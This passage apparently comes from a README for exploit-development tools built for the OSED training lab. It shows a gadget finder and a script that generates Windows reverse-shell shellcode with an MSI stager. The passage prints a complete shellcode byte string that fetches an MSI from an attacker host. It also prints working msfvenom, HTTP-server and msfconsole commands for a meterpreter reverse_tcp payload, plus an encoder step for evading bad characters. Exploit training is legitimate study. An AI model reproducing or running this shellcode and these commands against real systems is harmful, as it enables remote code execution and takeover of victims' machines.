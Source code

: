 find gadgets in multiple files (one is loaded at a different offset than what
the dll prefers) and omit `0x00` and `0xde` from all gadgets

![gadgets](img/gadgets.png)

### shellcoder.py

requires [keystone-engine](https://github.com/keystone-engine/keystone)

Creates reverse shell with optional msi loader

```
usage: shellcode.py [-h] [-l LHOST] [-p LPORT] [-b BAD_CHARS [BAD_CHARS ...]] [-m] [-d] [-t] [-s]

Creates shellcodes compatible with the OSED lab VM

optional arguments:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        listening attacker system (default: 127.0.0.1)
  -p LPORT, --lport LPORT
                        listening port of the attacker system (default: 4444)
  -b BAD_CHARS [BAD_CHARS ...], --bad-chars BAD_CHARS [BAD_CHARS ...]
                        space separated list of bad chars to check for in final egghunter (default: 00)
  -m, --msi             use an msf msi exploit stager (short)
  -d, --debug-break     add a software breakpoint as the first shellcode instruction
  -t, --test-shellcode  test the shellcode on the system
  -s, --store-shellcode
                        store the shellcode in binary format in the file shellcode.bin
```

```
❯ python3 shellcode.py --msi -l 192.168.49.88 -s
[+] shellcode created!
[=]   len:   251 bytes
[=]   lhost: 192.168.49.88
[=]   lport: 4444
[=]   break: breakpoint disabled
[=]   ver:   MSI stager
[=]   Shellcode stored in: shellcode.bin
[=]   help:
         Create msi payload:
                 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.88 LPORT=443 -f msi -o X
         Start http server (hosting the msi file):
                 sudo python -m SimpleHTTPServer 4444
         Start the metasploit listener:
                 sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.49.88; set LPORT 443; exploit"
         Remove bad chars with msfvenom (use --store-shellcode flag):
                 cat shellcode.bin | msfvenom --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python -v shellcode

shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x72\x74\x2e\x64\x68\x6d\x73\x76\x63\x54\xff\x55\x14\x89\xc3\x68\xa7\xad\x2f\x69\xff\x55\x04\x89\x45\x18\x31\xc0\x66\xb8\x71\x6e\x50\x68\x2f\x58\x20\x2f\x68\x34\x34\x34\x34\x68\x2e\x36\x34\x3a\x68\x38\x2e\x34\x39\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x54\xff\x55\x18\x31\xc9\x51\x6a\xff\xff\x55\x10"
****
```
